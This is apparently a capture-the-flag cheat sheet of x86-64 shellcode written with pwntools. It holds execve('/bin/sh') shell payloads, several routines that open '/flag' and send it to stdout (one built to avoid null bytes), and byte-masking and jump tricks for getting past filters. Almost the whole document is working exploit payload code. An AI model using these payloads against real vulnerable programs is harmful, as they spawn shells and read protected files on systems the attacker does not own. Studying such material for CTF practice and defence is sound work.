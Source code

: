 # Shellcode

### basic shell 1
```python
shellcode = pwn.asm('''
    mov rax, 59;
    lea rdi, [rip + sh];
    mov rsi, 0;
    mov rdx, 0;
    syscall;
    ret;
sh:
    .string "/bin/sh"
''')
```

### basic shell 2
```python
shellcode = pwn.asm('''
    mov rax, 59;
    mov rbx, 0x0068732f6e69622f;
    push rbx;
    mov rdi, rsp;
    mov rsi, 0;
    mov rdx, 0;
    syscall;
''')
```

### send /flag 1
- overview:
```c
// 1
fd_flag = open("/flag", O_RONLY);
// 2
sendfile(stdout, fd_flag, 0, 1024);
// 3
exit(EXIT_SUCCESS); 
```
```python
shellcode = pwn.asm('''
    mov rbx, 0x00000067616c662f; # push "/flag", the 'number' is stored in little endien in memory, so acutally '/flag\x00\x00\x00' stored 
    push rbx;                    # /flag now on stack
    mov rax, 2;
    mov rdi, rsp;                # rdi now points to string /flag
    mov rsi, 0;                  # read only 
    syscall;                     # now fd_flag in rax (return value)              

    mov rdi, 1;                  # stdout
    mov rsi, rax;                
    mov rdx, 0;                  # 0 bytes offset
    mov r10, 1000;               # read 1000 bytes
    mov rax, 40;
    syscall;                     # now flag is printed in terminal

    mov rdi, 0; 
    mov rax, 60;
    syscall
''')
```

### send /flag 2
```python
shellcode = pwn.asm('''
    lea rdi, [rip + string]; # fd_flag = open("/flag", O_RDONLY)
    mov rsi, 0;
    mov rax, 2;
    syscall;
                    
    mov rdi, 1; # sendfile(stdout, fd_flag, 0, 1024)
    mov rsi, rax;
    mov rdx, 0;
    mov r10, 1000;
    mov rax, 40;
    syscall;
                             
    ret;
string:
    .string "/flag"
''')
```

### send /flag 3 (no null bytes)
```python
shellcode = pwn.asm('''
    push rbx;
    
    ;#mov rbx, 0x00000067616c662f; # fd_flag = open("/flag", O_RDONLY)
    xor rbx, rbx
    mov bl, 0x67;
    shl rbx, 32;
    add rbx, 0x616c662f;
    push rbx;
    mov rdi, rsp;
    xor rax, rax;
    mov al, 2;   
    xor rsi, rsi;
    syscall;          
     
    xor rdi, rdi; # sendfile(stdout, fd_flag, 0, 1024)
    inc rdi;
    mov rsi, rax;
    xor rdx, rdx;
    xor rax, rax;              
    mov ax, 1000;
    mov r10, rax;
    xor rax, rax;
    mov al, 40;              
    syscall;

    pop rbx;                    
    ret;    
''')
```


### Trick, mask 1 trash byte via PUSH imm8
- 1 byte fix (0x6a), then 1 byte arbitrary
```
shellcode = pwn.asm('''             
    push 0x11; # 6a11 (0x6a plus 1 byte immediate value)
''')
```

### Trick, mask 2 bytes trash via PUSHW imm16
- 2 bytes fix (0x6668), then 2 byte arbitrary
```
pushw 0xb848; # 6668 48b8 (0x6668 plus 2 bytes immediate value)
```

### Trick, mask 4 trash bytes via PUSH imm32
- 1 byte fix (0x64), then 4 bytes arbitrary
```
shellcode = pwn.asm('''
    push 0x11223344; #6844332211 (0x68 plus 4 byte immediate value in little endian)
''')
```

### Trick, jump over trash bytes via JUMP rel8
- 1 byte fix (0xeb) and 1 byte jump offset (-128,+127)
```
shellcode = pwn.asm('''             
    nop; # do sth
    jmp $+2;
    .byte 0x11, 0x22;
    nop; # do sth
''')
```
- one cloud also use a label
```
shellcode = pwn.asm('''             
    nop; # do sth
    jmp continue;
trash:
    .byte 0x11, 0x22;
continue:
    nop; # do sth
''')
```